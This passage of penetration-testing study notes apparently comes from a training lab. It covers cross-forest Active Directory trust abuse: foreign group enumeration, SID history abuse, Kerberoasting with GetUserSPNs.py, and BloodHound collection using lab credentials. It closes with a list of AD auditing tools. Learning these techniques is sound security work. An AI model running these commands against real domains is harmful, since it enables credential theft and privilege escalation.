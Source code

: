 Once the passwords are cracked, it is worth checking for reuse in the other domain.

Also consider group memberships - admins in one domain may also be part of an admin group in another domain, due to Domain Local Groups allowing principals outside its forest.

* We can enumerate groups with such users using `Get-DomainForeignGroupMember`, to check for foreign group membership.
  `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`
  Then, convert member SID to its name using `Convert-SidToName`

SID History can also be abused across forest trusts. If SID filtering is not implemented, suppose that user with administrative privileges in one domain is migrated to another trusted domain.

* This user retains their administrative privileges in the previous domain.

### Cross-Forest Trust Abuse from Linux

#### Kerberoasting

Likewise, we can use `GetUserSPNs.py` for this. We need to specify the `-target-domain` option for our targeted, cross-forest domain.

* Enumeration: `GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
* Ticket generation: `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`. We can use `-outputfile` as well, to pipe output to a hash file for cracking.

To check for foreign group membership, we can use `bloodhound-python` to collect data, then ingest it into the GUI for analysis.

* Firstly, add the DNS entry for the domain into `/etc/resolv.conf`:

```
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

* Then, run the tool: `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`. Compress the `json` files into a `zip` archive: `zip -r ilfreight_bh.zip *.json`
* Repeat this process for domains in other forests: `bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2`
* In BloodHound, click on `Users with Foreign Domain Group Membership` under the `Analysis` tab, and select the source domain as our domain of interest.

## AD Auditing Tools

AD Explorer - GUI tool to explore the AD configuration.

`PingCastle` - tool to evaluate security posture of AD environment, with results in maps and graphs.

`group3r.exe` - tool to find AD GPO vulnerabilities.

`ADRecon` - PowerShell tool to enumerate AD.
